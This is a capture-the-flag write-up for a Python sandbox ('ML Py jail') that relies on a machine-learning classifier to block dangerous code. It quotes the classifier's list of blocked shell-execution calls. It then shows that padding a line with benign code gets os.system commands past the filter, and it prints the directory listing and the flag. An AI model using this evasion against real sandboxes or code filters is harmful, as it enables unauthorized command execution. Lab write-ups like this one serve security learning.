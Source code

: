 # ML Py jail

A classic py jail using machine learning for it's filter.

## Experimentation

We started by having a look at the service:

```
>>> print("Hello, World!")
Hello, World!

>>> import os
Bad Code Detected ...
```

## Code

Having a quick look at the code, we realize that the filter being used is a machine learning model.

Let's have a look at the training data.

Extract from `\tags\good_code.txt`:

```
print('Hello, World!')
x = 5; y = 10; print(x + y)
numbers = [1, 2, 3, 4, 5]; print(sum(numbers))
print(''.join(['Hello', ' ', 'World!']))
print('The answer is', 42)
print('Even' if x % 2 == 0 else 'Odd')
names = ['Alice', 'Bob', 'Charlie']; print(', '.join(names))
import math; print(math.sqrt(16))
```

Extract from `\tags\bad_code.txt`:

```
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
```

## Attack

We can convince the model that code is good by feeding it a lot of _"good"_ training data with malicious code at the end.

Let's try this again:

```
>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); import os
Hello, World!
15
15

>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); os.system("ls")
Dockerfile
MLjail
ReadME.md
docker-compose.yml
entrypoint.sh
Hello, World!
15
15
```

This worked ! All that we need to do is read the flag

```
>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); os.system("cat MLjail/flag.txt")
PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}Hello, World!
15
15
```

## Flag

`PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}`
